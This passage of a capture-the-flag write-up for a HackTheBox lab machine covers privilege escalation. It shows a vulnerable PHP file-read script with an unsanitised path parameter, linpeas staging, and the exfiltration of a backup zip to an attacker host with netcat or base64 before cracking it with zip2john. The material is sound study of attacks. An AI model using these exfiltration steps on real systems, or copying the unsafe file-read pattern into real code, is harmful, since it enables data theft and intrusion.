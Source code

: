 ## Privesc: `tomcat` to `ash`

Started by running linpeas on the target. I should make an alias for downloading linpeas, as on a fresh system, I loose my ZSH history and have to browse to it. Anyway, documented the URL below for reference.

```none
wget https://github.com/carlospolop/PEASS-ng/raw/master/linPEAS/linpeas.sh
python3 -m http.server
```

Had a poke around while linpeas was running, but didn't find much. Started to look at the linpeas output. Didn't really find much useful, so started looking around the box manually. Went around in circles for a while trying to determine the next step. I got bored and kind of gave up doing "proper enumeration" and went to see how the PHP LFI worked in the `/var/www/html/` directory. Interestingly, the PHP vulnerability was caused by some code that opened files are `echo`ed them out - not an include statement.

```php
tomcat@tabby:/var/www/html$ cat news.php 
<?php
$file = $_GET['file'];
$fh = fopen("files/$file","r");
while ($line = fgets($fh)) {
  echo($line);
}
fclose($fh);
?>
```

Turns out that in the `files` directory there were a couple of interesting files! I would not have thought to have looked here, but I guess you have to get lucky sometimes! There was a zip file named `16162020_backup.zip` that was password protected. Very interesting. I downloaded it by spinning up a Python 3 HTTP server - which I think is the easiest method. However, after finishing the box and reading a couple of writeups, I thought I would document other methods people used.

Ippsec did a base64 solution.

```none
# Get the base64 of the file on the target
base64 16162020_backup.zip
# Save the string to a file on the attacker's machine
echo -e "<string>" | base64 -d
```

And a method by 0xdf:

```none
# Pipe the file on the target to netcat
cat 16162020_backup.zip | nc 10.10.14.18 443
# On the attacker's machine, use netcat to receive the file
nc -lnvp 443 > 16162020_backup.zip
```

Anyway, back to cracking the ZIP file. Start by extracting the hash.

```none
zip2john 16162020_backup.zip > backup_hash
```

